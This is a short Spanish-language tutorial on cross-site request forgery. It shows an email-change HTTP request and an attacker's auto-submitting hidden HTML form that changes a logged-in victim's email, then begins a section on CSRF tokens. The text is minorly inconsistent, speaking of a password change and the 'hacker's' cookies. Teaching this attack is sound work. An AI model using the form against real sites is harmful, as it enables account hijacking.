 

## CSRF `I`

***

Supongamos que una aplicacion web le permita a un usario cambiar su clave de acceso.Cuando esta accion se realiza se produce una solicitud web como la siguiente:  

```
POST /email/change HTTP/1.1  
Host: hackweb.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE  

email=user@hack.com   
```

De esta solicitud sabemos que la aplicacion utiliza una cookie de sesion para identificar al usuario que emitio la solicitud.Por tanto en estas condiciones el atacante puede construir una pagina con el siguiente formulario.  

```html
<html>
  <body>
    <form action="https://hackweb.com/email/change" method="POST">
      <input type="hidden" name="email" value="othermail@hacked.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html> 
```



#### Si la victima visita la pagina web del atacante entonces:  

- La pagina del atacante enviara una peticion al sitio web vulnerable y si el usuario ha iniciado sesion su   navegador incluira automaticamente  las cookies de sesion de la hacker y cambiara el correo.  

## CSRF `II`

***

<img src="https://terasolunaorg.github.io/guideline/5.1.1.RELEASE/en/_images/Csrf.png" width="800"/>

Como en el ejemplo anterior,pero en este caso suponga que la aplicacion ahora incluya un `Token CSRF`  

```http
POST /email/change HTTP/1.1  
Host: hackweb.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE  

csrf=WfF1szMUHhiokx9AHFply5L2xAOfjRkE&email=user@hack.com   
```
